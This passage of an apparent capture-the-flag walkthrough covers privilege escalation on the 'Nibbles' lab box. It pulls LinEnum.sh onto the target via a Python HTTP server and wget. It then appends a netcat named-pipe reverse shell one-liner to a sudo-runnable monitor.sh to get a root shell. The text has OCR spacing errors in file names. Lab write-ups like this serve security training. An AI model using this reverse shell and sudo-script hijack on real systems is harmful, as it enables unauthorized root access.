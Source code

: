 Unzip the personal. Zip and see a file called monitor. Sh under the directory called /home/nibbler.
The shell script file monitor. Sh is a monitoring script, and it is owned by our nibbler user and writeable.

```
cat monitor.sh
####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

```
Now pull in LinEnum. Sh to perform some automated privilege escalation checks. First, download script to your local attack VM or the Pwnbox and then start a Python HTTP server using the command, 
```
sudo python -m http.server 8080 (from the attacking device)
```
Back on the target type wget http://<yourip>: 8080/LinEnum. Sh to download the script. If successful, we will see a 200 success response on our python HTP server. Once the script is pulled over, chmod +x LinEnum. Sh to make the script executable and then run it. 

The nibbler can run the file with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with sudo we should get a reverse shell back as the root user. Let us edit the monitor. Sh file to append a reverse shell one liner. 

```
nibbler@Nibbles :/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

Finally catch the root shell on our waiting nc listener.
From here we can grab a root. Txt flag. 
